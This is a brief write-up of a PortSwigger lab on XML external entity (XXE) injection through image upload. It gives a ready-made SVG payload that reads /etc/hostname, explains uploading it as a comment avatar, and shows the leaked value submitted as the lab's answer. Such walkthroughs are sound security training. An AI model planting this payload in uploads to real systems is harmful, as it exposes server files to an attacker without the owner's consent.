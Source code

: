 # Lab: Exploiting XXE via image file upload
# https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

```bash
# Check comment part.
# We see that we can upload image to avatar.
# Let's try to upload svg that contains our malicious xml.
```
```bash
# Create test.svg by using terminal nano test.svg then paste this code:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>


```
```bash
# Create a comment and upload test.svg as avatar.
# After that right click on your avatar and click on open image in new tab.

ceeb8ec0638c

# Take the code and submit it.
```

